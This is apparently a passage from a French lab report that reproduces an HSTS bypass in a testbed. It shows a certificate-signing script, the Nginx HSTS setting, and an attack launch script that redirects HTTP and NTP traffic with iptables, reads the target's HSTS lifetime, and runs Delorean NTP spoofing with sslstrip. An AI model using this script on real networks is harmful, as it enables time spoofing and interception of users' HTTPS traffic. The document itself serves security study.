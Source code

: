 Cette machine héberge un serveur HTTP(s) Nginx sur le port 80 et 443. Le certificat utilisé pour les connections HTTPS a été généré avec openssl grâce aux scripts présents dans le dossier , et signé par notre autorité de certification par ce script :

\begin{verbatim}
#!/bin/sh

if test ! -f root-ca.pem || test ! -f root-ca.key
then
    echo "[-] First, create CA !"
    exit 1
fi

# Create private key
openssl genrsa -out cert.key 4096

# Create request
openssl req -new -key cert.key -out cert.csr

# Sign certificate with CA
openssl x509 -req -in cert.csr -CA root-ca.pem -CAkey root-ca.key -CAcreateserial -out cert.pem -days 365 -sha256

echo "[+] Your certificate: cert.pem"
echo "[+] Your private key: cert.key"
\end{verbatim}

Sur le serveur Nginx, nous avons configuré un domaine en HTTP (), ainsi qu'un domaine en HTTPS (), sécurisé grâce à HSTS. La configuration de ce dernier se fait en rajoutant la ligne suivante dans le fichier de configuration de Nginx :

\begin{verbatim}
  add_header Strict-Transport-Security "max-age=31536000; includeSubDomains";
\end{verbatim}

Cette machine héberge également un serveur NTP. Nous avons simplement eu à installer le paquet ntpd pour que celui-ci soit lancé au démarrage.

\subsubsection{Machine immortal (147.210.12.2 - 147.210.13.1)}

C'est sur cette machine que se trouve le Proof-Of-Concept de l'attaque. Nous avons également utilisé le script Delorean comme décrit dans le papier de l'attaque afin d'usurper les requêtes NTP de la machine grave. L'attaque se lance grâce au script  :

\begin{verbatim}
#!/bin/sh

PROXY_PORT=4242
DELOREAN_PORT=4343

iptables -t nat -F
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $PROXY_PORT
iptables -t nat -A PREROUTING -p udp --destination-port 123 -j REDIRECT --to-port $DELOREAN_PORT

hsts_expire=$(curl -v https://www.opeth.secure --insecure 2>&1  | grep Strict | awk -F= '{print $2}' | awk -F\; '{print $1}')
hsts_expire=$(($hsts_expire / 60 + 1))

/mnt/host/delorean.py -p $DELOREAN_PORT -n -s ${hsts_expire}m &
/mnt/host/sslstrip-ntp.py $PROXY_PORT
\end{verbatim}

